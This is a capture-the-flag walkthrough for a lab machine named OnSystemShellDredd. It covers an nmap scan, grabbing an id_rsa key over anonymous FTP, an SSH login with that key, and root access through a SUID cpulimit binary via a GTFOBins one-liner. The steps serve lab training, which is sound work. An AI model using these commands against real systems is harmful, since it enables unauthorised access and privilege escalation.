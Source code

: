 # OnSystemShellDredd

## Nmap

```
sudo nmap 192.168.172.130 -p- -sS -sV

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

FTP on the host is open to anonymous login. When logged in use `ls -la` to view hidden files. Upon moving into the .hannah directory ensure **binary** mode is enabled then grab the id\_rsa.

![](<../../../.gitbook/assets/image (1158).png>)

Ensure to change the permissions on the id\_rsa to make it usable.

```
chmod 600 id_rsa
```

Then proceed to login as the user hannah specifying port 61000.

```
ssh -p 61000 -i id_rsa hannah@192.168.172.130
```

![](<../../../.gitbook/assets/image (1159).png>)

Running linpeas on the target machine after transferring over finds the binary cpulimit has a SUID bit set.

![](<../../../.gitbook/assets/image (1160).png>)

Checking GTFOBins against this binary reports the following:

![](<../../../.gitbook/assets/image (1161).png>)

We can then use the following command to gain a root shell:

```
/usr/bin/cpulimit -l 100 -f -- /bin/sh -p
```

![](<../../../.gitbook/assets/image (1165).png>)
